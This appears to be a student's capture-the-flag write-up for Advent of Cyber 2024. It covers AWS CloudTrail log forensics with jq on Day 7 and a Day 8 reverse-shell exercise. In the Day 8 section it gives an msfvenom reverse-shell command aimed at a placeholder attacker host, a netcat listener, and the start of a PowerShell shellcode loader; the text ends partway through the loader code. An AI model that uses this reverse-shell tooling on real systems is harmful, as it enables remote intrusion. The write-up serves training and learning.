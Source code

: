 6. *What type of access was assigned to the anomalous user?*
**Answer:** AdministratorAccess.
![day7.JPG](https://github.com/teayahz/cryptonite_taskphase_tia/blob/main/AOC24/img/day7.JPG?raw=true)

7. *Which IP does Mayor Malware typically use to log into AWS?*
**Answer:** 53.94.201.69.

8. *What is McSkidy's actual IP address?*
**Answer:** 31.210.15.79. from `jq -r '["Event_Time","Event_Source","Event_Name", "User_Name","User_Agent","Source_IP"],(.Records[] | select(.userIdentity.userName=="mcskidy") | [.eventTime, .eventSource, .eventName, .userIdentity.userName // "N/A",.userAgent // "N/A",.sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t -s $'\t'`

9. *What is the bank account number owned by Mayor Malware?*
**Answer:** 394 6912 7723 1294. by running `grep INSERT rds.log`

**Concepts:**
- AWS (Amazon Web Services) and platforms under it such as CloudWatch & CloudTrail which uses JSON formatting, and this JSON data can be filtered with JQ.

# Day 8

**Challenge:**
- Running `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKBOX_IP] LPORT=[PORT] -f powershell` on terminal gives the shell code needed for reverse shell as a hex-encoded byte array. 
- The command `nc -nvlp [PORT]` is used to listen into the port and receive data after the shellcode is executed.
- On replacing the `SHELLCODE` in this code with the hex from the first command, and executing them line by line on the PowerShell, the connection is made.
```powershell
$VrtAlloc = @" 
using System; 
using System.Runtime.InteropServices; 
public class VrtAlloc{ 
[DllImport("kernel32")] 
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
} 
"@ 
Add-Type $VrtAlloc 
$WaitFor= @" 
using System; 
using System.Runtime.InteropServices; 
public class WaitFor{ 
[DllImport("kernel32.dll", SetLastError=true)] 
public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
} 
"@ 
Add-Type $WaitFor 
$CrtThread= @" 
using System; 
using System.Runtime.InteropServices; 
public class CrtThread{ 
[DllImport("kernel32", CharSet=CharSet.Ansi)] 
```
